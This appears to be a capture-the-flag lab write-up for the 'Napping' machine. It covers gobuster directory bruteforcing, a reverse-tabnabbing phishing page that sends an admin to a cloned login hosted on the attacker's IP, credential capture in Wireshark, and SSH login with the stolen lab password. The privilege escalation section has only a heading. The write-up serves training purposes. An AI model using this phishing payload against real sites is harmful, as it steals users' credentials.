









---

title: "Napping"

---
<center>
<strong>1. 🔍 Enumeration Part + Directory Bruteforcing</strong><br> 
<strong>2. ☠️ Exploitation Part</strong><br>
<strong>3. 🔓 Privilege Escalation Part</strong>
</center>

---

<h2><span style="color:red">1. 🔍 Enumeration Part + Directory Bruteforcing</span></h2><br>
We will start from the nmap scan:
<center>
 
</center><br>

Directory bruteforcing using gobuster tool:<br>
```bash
gobuster dir -u http://10.10.136.217/ -w=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php
```
<center>

</center><br>

We also see that /admin directory appeared, going further to see more:<br>
```bash
gobuster dir -u http://10.10.136.217/admin/ -w=/usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php
```

<center>
 
</center>

Cheking the main page:<br>
<center>

</center>

We will sign up a new account<br>
<center>

</center><br>

Also checking the admin page on /admin/login.php<br>
<center>

</center>

After creating and signing up as a hacker, we see the text that says "Please submit your link so that we can get started.
All links will be reviewed by our admin who also built this site!"<br>
<center>

</center>
<br>

By cloning the /admin/login.php page and creating a phishing HTML page with credential capture functionality, we can attempt to trick the admin into entering their credentials when they review our submitted link.<br>

<h2><span style="color:red"><strong>2. ☠️ Exploitation Part</strong></span></h2><br>

Let's get our /admin/login.php page:<br>
<center>

</center><br>
And create test.html document for our phishing part:<br>
```bash
<!DOCTYPE html>
<html>
   <body>
      <script>
         window.opener.location='http://10.11.147.142:8000/login.php';
      </script>
   </body>
</html>
```
<br>
NOTE: You write your IP from the attacker mashine and store both (login.php and test.html) files at the same directory.<br>

From the files directory we run a python server on port 80 and 8000.<br>
<center>

</center>
<br>
Starting WIRESHARK for our phishing process:<br>
<center>

</center><br>
NOTE: start capturing traffic before u send a link to the target, and by your openvpn interface (I have tun0).
<br>
Sending our phishing link and straight ahead switching to WIRESHARK:<br>
```bash
http://your.ip:80/test.html
```
<br>
<center>

</center><br>
By following tcp traffic we can see captured creds:<br>
<center>

</center><br>
NOTE: Password is URL encoded. Decoding it you've got C@ughtm3napping123
<br>
Using captured credentials for SSH login in.<br>
<center>

</center><br>
We are in!!!

<center>

</center><br>
<h2><span style="color:red">3. 🔓 Privilege Escalation Part</span></h2><br>
